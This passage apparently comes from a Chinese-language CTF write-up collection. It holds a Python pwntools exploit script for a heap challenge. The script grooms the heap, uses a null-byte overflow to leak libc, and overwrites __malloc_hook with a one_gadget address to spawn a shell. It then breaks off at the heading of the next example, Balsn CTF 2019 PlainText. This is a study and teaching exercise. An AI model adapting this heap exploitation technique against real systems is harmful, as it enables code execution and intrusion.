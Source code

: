 ```python


def main():
    # avoid complicity of structure malloc
    for i in range(10):
        put(str(i), 0x38, str(i))
        
    for i in range(10):
        delete(str(i))

    # allocate what we want in order
    put('1', 0x200, '1')
    put('2', 0x50, '2')
    put('5', 0x68, '6')
    put('3', 0x1f8, '3')
    put('4', 0xf0, '4')
    put('defense', 0x400, 'defense-data')


    # free those need to be freed
    delete('5')
    delete('3')
    delete('1')

    delete('a' * 0x1f0 + p64(0x4e0))

    delete('4')

    put('0x200', 0x200, 'fillup')
    put('0x200 fillup', 0x200, 'fillup again')

    libc_leak = u64(get('2')[:6].ljust(8, '\x00'))
    p.info('libc leak: 0x%x' % libc_leak)
    
    libc_base = libc_leak - 0x3c4b78

    p.info('libc_base: 0x%x' % libc_base)

    put('fastatk', 0x100, 'a' * 0x58 + p64(0x71) + p64(libc_base + libc.symbols['__malloc_hook'] - 0x10 + 5 - 8))
    put('prepare', 0x68, 'prepare data')

    one_gadget = libc_base + 0x4526a
    put('attack', 0x68, 'a' * 3 + p64(one_gadget))

    p.sendline('DEL') # malloc(8) triggers one_gadget

    p.interactive()

if __name__ == '__main__':
    main()
```
## 實例 3 : Balsn_CTF_2019-PlainText
### 漏洞利用分析
